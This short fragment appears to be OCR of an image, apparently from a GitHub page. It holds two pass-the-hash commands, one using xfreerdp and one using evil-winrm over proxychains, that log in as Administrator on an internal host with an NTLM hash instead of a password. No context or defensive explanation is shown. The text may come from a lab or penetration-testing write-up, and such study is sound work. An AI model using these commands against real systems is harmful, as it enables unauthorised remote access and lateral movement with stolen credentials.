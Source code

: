  proxychains xfreerdp /u:Administrator /pth:7facdc498ed1680c4fd1448319a8c04f /v:172.16.1.30

proxychains evil-winrm -i 172.16.1.30 -u CORP\Administrator -H 7facdc498ed1680c4fd1448319a8c04f